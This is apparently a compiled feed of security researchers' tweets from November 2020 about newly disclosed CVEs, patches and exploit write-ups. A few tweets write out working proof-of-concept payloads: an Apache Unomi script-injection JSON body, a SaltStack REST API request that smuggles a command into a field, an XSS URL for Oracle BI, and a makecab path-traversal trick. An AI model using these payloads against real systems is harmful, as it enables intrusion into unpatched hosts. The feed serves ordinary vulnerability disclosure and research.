

# binitamshah
**https://twitter.com/binitamshah/status/1333276243861540865 _at 2020-11-30, 05:06:42_**
<blockquote>
Exploiting a “Simple” Vulnerability – In 35 Easy Steps or Less! : https://t.co/MeaWzbFCqs credits @yarden_shafir

PoC demonstrating the use of cve-2020-1034 for privilege escalation : https://t.co/odMCuUnvWa https://t.co/7EFzXVgSx2
</blockquote>

* https://windows-internals.com/exploiting-a-simple-vulnerability-in-35-easy-steps-or-less/
* https://github.com/yardenshafir/CVE-2020-1034

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>154</code></td>
</tr></table>

---

# KeyZ3r0
**https://twitter.com/KeyZ3r0/status/1331449295199899648 _at 2020-11-25, 04:07:03_**
<blockquote>
It seems chromium patched my first found since I started hunting for chromium sandbox escape this year(CVE-2020-16018 reported by Man Yue Mo @mmolgtm), really interested in focusing on a new challenging research😋 https://t.co/qwn1cDAwL7
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---

# _Icewall
**https://twitter.com/_Icewall/status/1330998292029837321 _at 2020-11-23, 22:14:56_**
<blockquote>
Some of my Webkit GTK/WPE vulns have been patched :
https://t.co/sNuOOwwVjB
CVE-2020-13584
CVE-2020-9951
More details next week ;)
</blockquote>

* https://webkitgtk.org/security/WSA-2020-0008.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# ulldma
**https://twitter.com/ulldma/status/1330947425457102850 _at 2020-11-23, 18:52:48_**
<blockquote>
Write-up of the code execution vulnerability I found in the Elixir-based Paginator project (CVE-2020-15150)

https://t.co/sv2zfe6aNv
</blockquote>

* https://www.alphabot.com/security/blog/2020/elixir/Remote-code-execution-vulnerability-in-Elixir-based-Paginator-project.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1330928818840764417 _at 2020-11-23, 17:38:52_**
<blockquote>
GitHub - yardenshafir/CVE-2020-1034: PoC demonstrating the use of cve-2020-1034 for privilege escalation - https://t.co/qsXBcxzu7U
</blockquote>

* https://github.com/yardenshafir/CVE-2020-1034

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---

# 0xedh
**https://twitter.com/0xedh/status/1330919517782945794 _at 2020-11-23, 17:01:54_**
<blockquote>
After a while I have published the exploit for CVE-2020-9527, Hichip's P2P cameras RCE. Thanks to @PaulMarrapese for his previous research.

https://t.co/n34q3AlE0V
</blockquote>

* https://github.com/0xedh/hichip-p2p-firmware-rce

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# imnarendrabhati
**https://twitter.com/imnarendrabhati/status/1329794356841070592 _at 2020-11-20, 14:30:55_**
<blockquote>
Safari 14.0.1 With Fixes of Address Bar Spoofing Vulnerability.
CVE-2020-9945
details will be out once the fix is released from different browsers as well.
https://t.co/NSyAtPd8iQ 
#infosec #infosec #hacking #bugbounty https://t.co/yRyyxlD1h7
</blockquote>

* https://support.apple.com/en-in/HT211934

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# _mohemiv
**https://twitter.com/_mohemiv/status/1329438812158746629 _at 2020-11-19, 14:58:07_**
<blockquote>
Do you known that Cisco ISE is vulnerable to CVE-2017-5638 Apache Struts2 RCE?

Port: 8443
Payload:

GET /sponsorportal/LoginCheck.action HTTP/1.0
Host: 10.0.0.1:8443
User-Agent: Mozilla
Content-Type: %{...}

Cisco ISE is a NAP system that might be found on network boundaries.
</blockquote>

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>103</code></td>
<td>Favorites: <code>368</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1329421633287827457 _at 2020-11-19, 13:49:51_**
<blockquote>
RT @ptswarm: The advisory for multiple unauth RCE in Cisco Integrated Management Controller (CVE-2020-3470) is now out!

Buffer Overflows l…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1329417273719853062 _at 2020-11-19, 13:32:32_**
<blockquote>
The advisory for multiple unauth RCE in Cisco Integrated Management Controller (CVE-2020-3470) is now out!

Buffer Overflows lead to RCE with uid=0 (root) privileges

Discovered by Nikita Abramov

https://t.co/s6T3YDswoG https://t.co/8fBFauF8SR
</blockquote>

* https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-ucs-api-rce-UXwpeDHd

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>143</code></td>
</tr></table>

---

# GHSecurityLab
**https://twitter.com/GHSecurityLab/status/1329091248997625857 _at 2020-11-18, 15:57:01_**
<blockquote>
ICYMI @mmolgtm explains how to exploit CVE-2020-6449, a use-after-free (UAF) in the WebAudio module of Chrome, and achieve a sandboxed RCE. Read also how he used #CodeQL to accelerate his code audit https://t.co/k5ddV8Scv3
</blockquote>

* https://github.co/3msMoMy

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>78</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1328942729095753731 _at 2020-11-18, 06:06:51_**
<blockquote>
CVE-2020-16846
CVE-2020-25592
SaltStack Salt REST API RCE

[PoC]
POST /run HTTP/1.1
Host: [Victim:8888]
...
...

token=12312&amp;client=ssh&amp;tgt=*&amp;fun=a&amp;roster=whip1ash&amp;ssh_priv=aaa|open%20/System/Applications/Calculator.app%3b

https://t.co/jdgIUFSW6x https://t.co/s7xlLDkHDX
</blockquote>

* https://paper.seebug.org/1398/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# pyn3rd
**https://twitter.com/pyn3rd/status/1328920545442680837 _at 2020-11-18, 04:38:42_**
<blockquote>
#CVE-2020-13942 Apache Unomi Remote Code Execution

PoC:
{"filters":[{"id" : "pyn3rd","filters": [{"condition": {"parameterValues": {"pyn3rd": "script::Runtime.getRuntime().exec('open -a Calculator')"},"type":"profilePropertyCondition"}}]}],"sessionId": "pyn3rd"} https://t.co/Gcw5FcZiNp
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>167</code></td>
<td>Favorites: <code>478</code></td>
</tr></table>

---

# iamelli0t
**https://twitter.com/iamelli0t/status/1328890412413534209 _at 2020-11-18, 02:38:58_**
<blockquote>
When analyzing CVE-2020-1380, I found another path to trigger a similar UAF vulnerability by neutering ArrayBuffer without JIT. 
It has beed fixed in Microsoft November’s Patch as CVE-2020-17053.
https://t.co/ucHH2cmYVN
</blockquote>

* https://www.trendmicro.com/en_us/research/20/k/cve-2020-17053-use-after-free-ie-vulnerability.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>135</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1327652599051464704 _at 2020-11-14, 16:40:20_**
<blockquote>
Exploring the Exploitability of “Bad Neighbor”: The Recent ICMPv6 Vulnerability (CVE-2020-16898)  https://t.co/WHjYcHvudH  #Pentesting #RCE #Vulnerability #CyberSecurity #Infosec https://t.co/CpYiv9N27y
</blockquote>

* https://blog.zecops.com/vulnerabilities/exploring-the-exploitability-of-bad-neighbor-the-recent-icmpv6-vulnerability-cve-2020-16898/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>81</code></td>
</tr></table>

---

# HackerOn2Wheels
**https://twitter.com/HackerOn2Wheels/status/1326927875279380480 _at 2020-11-12, 16:40:33_**
<blockquote>
Nothing critical, but here is the PoC for the new CVE I got credited for: CVE-2020-14815. 

https://target[.]com/bi-security-login/login.jsp?msi=false&amp;redirect="&gt;&lt;img/src/onerror%3dalert(document.domain)&gt;

Got a couple of Med in H1 using it. Have Fun!

#bugbounty #bugbountytips https://t.co/A8qx640VgE
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>134</code></td>
<td>Favorites: <code>343</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1326656333580480514 _at 2020-11-11, 22:41:32_**
<blockquote>
BREAKING: Google patches two more Chrome zero-days

This includes:
-CVE-2020-16013 - impacts Chrome V8 JS engine
-CVE-2020-16017 - impacts Chrome's Site Isolation feature

Google has now patched five Chrome zero-days in three weeks

https://t.co/ohF2CHwvOG https://t.co/BXFa1wzSwR
</blockquote>

* https://www.zdnet.com/article/google-patches-two-more-chrome-zero-days/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>94</code></td>
<td>Favorites: <code>157</code></td>
</tr></table>

---

# sourceincite
**https://twitter.com/sourceincite/status/1326626570073755648 _at 2020-11-11, 20:43:16_**
<blockquote>
Microsoft Exchange Server ExportExchangeCertificate WriteCertiricate File Write Remote Code Execution Vulnerability

CVE: CVE-2020-17083
Advisory: https://t.co/sf7upoNmjC
PoC exploit: https://t.co/lzKWSGhSjG
</blockquote>

* https://srcincite.io/advisories/src-2020-0025/
* https://srcincite.io/pocs/cve-2020-17083.ps1.txt

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>124</code></td>
<td>Favorites: <code>201</code></td>
</tr></table>

---

# ackmage
**https://twitter.com/ackmage/status/1326583893080870915 _at 2020-11-11, 17:53:41_**
<blockquote>
new tags to track recent WebLogic RCE (CVE-2020-14882, 14883, 14750) -

https://t.co/XH4J4A5RIh

https://t.co/uq9mqYuvHV
</blockquote>

* http://viz.greynoise.io/query/?gnql=tags%3A%22Oracle%20WebLogic%20RCE%20CVE-2020-14882%22
* http://viz.greynoise.io/query/?gnql=tags%3A%22Oracle%20WebLogic%20RCE%20CVE-2020-14750%22

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1326468227040374784 _at 2020-11-11, 10:14:04_**
<blockquote>
November 2020 Patch Tuesday — #Microsoft releases security updates for 112 newly discovered vulnerabilities, including an actively exploited zero-day flaw (CVE-2020-17087) disclosed by #Google's security team last week.

https://t.co/DwSQZTX8v6

#Infosec #CyberSecurity
</blockquote>

* https://thehackernews.com/2020/11/microsoft-releases-windows-security.html

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>141</code></td>
<td>Favorites: <code>214</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1326284184122519561 _at 2020-11-10, 22:02:45_**
<blockquote>
The description for CVE-2020-17083 is wrong, user interaction is *not* required. Also this is RCE as SYSTEM, so the actual CVSS is 8.5: https://t.co/qJWBH3ldCf
</blockquote>

* https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2020-17083

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>96</code></td>
</tr></table>

---

# EranShimony
**https://twitter.com/EranShimony/status/1326225811087749121 _at 2020-11-10, 18:10:48_**
<blockquote>
This was a long wait, this will be my last blog for some while - CVE-2020-22460, CVE-12330, CVE-2020-12335
https://t.co/ALNAPL16xT
</blockquote>

* https://www.cyberark.com/resources/threat-research-blog/intel-please-stop-assisting-me

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1325935382991523840 _at 2020-11-09, 22:56:44_**
<blockquote>
Critical Vulnerabilities Discovered in TCL Android TVs

CVE-2020-27403
Full file system browsing of the TV in the browser.

CVE-2020-28055
World writable update folder (malicious updates possible)
 : https://t.co/nahQGxkhGY 

credits @sickcodes  || @johnjhacking
</blockquote>

* https://sick.codes/extraordinary-vulnerabilities-discovered-in-tcl-android-tvs-now-worlds-3rd-largest-tv-manufacturer/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1325926835591421953 _at 2020-11-09, 22:22:46_**
<blockquote>
How I found a Tor vulnerability in Brave Browser, reported it, watched it get patched, got a CVE (CVE-2020-8276) and a small bounty, all in one working day : https://t.co/byy6rmUOl7   credits @sickcodes
</blockquote>

* https://community.disclose.io/t/how-i-found-a-tor-vulnerability-in-brave-browser-reported-it-watched-it-get-patched-got-a-cve-cve-2020-8276-and-a-small-bounty-all-in-one-working-day/65

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>290</code></td>
</tr></table>

---

# GossiTheDog
**https://twitter.com/GossiTheDog/status/1324896051128635392 _at 2020-11-07, 02:06:48_**
<blockquote>
Free threat intel - identify and patch VMware ESX vulnerabilities CVE-2019-5544 and CVE-2020-3992. 

Ransomware group using them to bypass all Windows OS security, by shutting down VMs and encrypting the VMDK’s directly on hypervisor.
</blockquote>

<table><tr>
<td>Quotes: <code>35</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>307</code></td>
<td>Favorites: <code>769</code></td>
</tr></table>

---

# cherepanov74
**https://twitter.com/cherepanov74/status/1324427068592001025 _at 2020-11-05, 19:03:14_**
<blockquote>
RT @benhawkes: Apple have fixed three issues reported by Project Zero that were being actively exploited in the wild. CVE-2020-27930 (RCE),…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>455</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# benhawkes
**https://twitter.com/benhawkes/status/1324422885830610944 _at 2020-11-05, 18:46:37_**
<blockquote>
Apple have fixed three issues reported by Project Zero that were being actively exploited in the wild. CVE-2020-27930 (RCE), CVE-2020-27950 (memory leak), and CVE-2020-27932 (kernel privilege escalation). The security bulletin is available here: https://t.co/4OIReajIp6
</blockquote>

* https://support.apple.com/en-us/HT211929

<table><tr>
<td>Quotes: <code>144</code></td>
<td>Replies: <code>17</code></td>
<td>Retweets: <code>419</code></td>
<td>Favorites: <code>951</code></td>
</tr></table>

---

# Exploit_Box
**https://twitter.com/Exploit_Box/status/1324198238887514112 _at 2020-11-05, 03:53:57_**
<blockquote>
Git  &amp; GitHub CLI Remote CodeExec #RCE #exploit  via Git LFS CVE-2020-27955 @dawid_golunski

Repo clone to Pwn ;) Full advisory with #PoC at
https://t.co/n0vnrcSUCg

#cybersecurity #infosec #hacking #security  #0day #git #github cli  #vuln #DevOps https://t.co/516I33RxYd
</blockquote>

* https://exploitbox.io/vuln/Git-Git-LFS-RCE-Exploit-CVE-2020-27955.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# TimoHirvonen
**https://twitter.com/TimoHirvonen/status/1324060555536117764 _at 2020-11-04, 18:46:50_**
<blockquote>
How would you exploit this UAF :)?

“Discovery and analysis of a Windows PhoneBook Use-After-Free vulnerability (CVE-2020-1530)”, an instructive blog post by @symeonp:
https://t.co/AHw1uWdm7e
</blockquote>

* https://symeonp.github.io/2020/12/08/phonebook-uaf-analysis.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1324022373255909377 _at 2020-11-04, 16:15:07_**
<blockquote>
CVE-2020-14871 had been exploited and distributed in the wild to numerous groups since at least October 6th 2014. That's 6 years that this vulnerability was available as 0day to multiple non-exclusive parties, VBI leak in HT emails shows it's the same bug. https://t.co/Prh3tm3DHN https://t.co/Efv6jtPFOB
</blockquote>

* https://wikileaks.org/hackingteam/emails/emailid/45441

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>127</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1323694078022848512 _at 2020-11-03, 18:30:35_**
<blockquote>
For those that want to repro CVE-2020-1300 you can just use makecab, no need to manually calc checksums now:

c:\&gt;type files.txt
"rce.exe" "../../rce.exe"
c:\&gt;makecab /f files.txt
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>136</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1323640631613394945 _at 2020-11-03, 14:58:13_**
<blockquote>
Dirty libssh2 PoC for CVE-2020-14871 to core target and pack with your favorite shellcode &amp; return addresses, something for the kidz on lockdown. Happy Hacking. https://t.co/7dqSGjOXqw https://t.co/UtnyDtxx1s
</blockquote>

* https://github.com/hackerhouse-opensource/exploits/blob/master/prdelka-vs-SUN-sshd.tgz

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>294</code></td>
</tr></table>

---

# benhawkes
**https://twitter.com/benhawkes/status/1323444628926820352 _at 2020-11-03, 01:59:22_**
<blockquote>
A few people noticed that CVE-2020-16010 wasn't included in the link above. That's because Chrome has separate release notes for Desktop and Android. The release notes covering CVE-2020-16010 (sandbox escape for Chrome on Android) are now available here: https://t.co/6hBKMuCAaK
</blockquote>

* https://chromereleases.googleblog.com/2020/11/chrome-for-android-update.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1323431512822435841 _at 2020-11-03, 01:07:15_**
<blockquote>
CVE-2020-14871 - well that was easy, SSH pre-auth RCE on Solaris through libpam. As a PoC trigger you need to ensure the remote host is using keyboard-interactive and then reach the vulnerable code path by specifying a blank username to get PAM to hit the vulnerable function. https://t.co/HQtSBBQ6g1
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>26</code></td>
<td>Replies: <code>18</code></td>
<td>Retweets: <code>263</code></td>
<td>Favorites: <code>696</code></td>
</tr></table>

---

# benhawkes
**https://twitter.com/benhawkes/status/1323374326150701057 _at 2020-11-02, 21:20:01_**
<blockquote>
Today Chrome fixed two more vulnerabilities that were being actively exploited in the wild (discovered by Project Zero/Google TAG last week). CVE-2020-16009 is a v8 bug used for remote code execution, CVE-2020-16010 is a Chrome sandbox escape for Android. https://t.co/IOhFwT0Wx1
</blockquote>

* https://chromereleases.googleblog.com/2020/11/stable-channel-update-for-desktop.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>126</code></td>
<td>Favorites: <code>296</code></td>
</tr></table>

---

# anttitikkanen
**https://twitter.com/anttitikkanen/status/1323371654966349826 _at 2020-11-02, 21:09:24_**
<blockquote>
Another in-the-wild Chrome 0day patched (CVE-2020-16009), reported by @_clem1 from TAG and @5aelo from Project Zero: https://t.co/SP1SR3aXEp
</blockquote>

* https://chromereleases.googleblog.com/2020/11/stable-channel-update-for-desktop.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>83</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1323199634538332162 _at 2020-11-02, 09:45:51_**
<blockquote>
WATCH OUT! Google disclosed details of a new zero-day flaw (CVE-2020-17087) in the Windows operating system that's being actively exploited in the wild.

Details: https://t.co/tgtxsM9N2u

#infosec #cybersecurity
</blockquote>

* https://thehackernews.com/2020/11/warning-google-discloses-windows-zero.html

<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>181</code></td>
<td>Favorites: <code>225</code></td>
</tr></table>

---

# certbund
**https://twitter.com/certbund/status/1322978362575540232 _at 2020-11-01, 19:06:36_**
<blockquote>
⚠️ Please apply the latest Chromium-based browser security updates (e. g. Chromium, Chrome, Microsoft Edge, Vivaldi) to fix FreeType heap-based buffer overflow CVE-2020-15999 which is actively exploited 🔥
https://t.co/gm0LrCFEmM
https://t.co/CB7HHt8FRb
https://t.co/fu6gPRX1gX
</blockquote>

* https://chromereleases.googleblog.com/2020/10/stable-channel-update-for-desktop_20.html
* https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/ADV200002
* https://vivaldi.com/blog/news/minor-update-for-vivaldi-desktop-browser-3-4/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

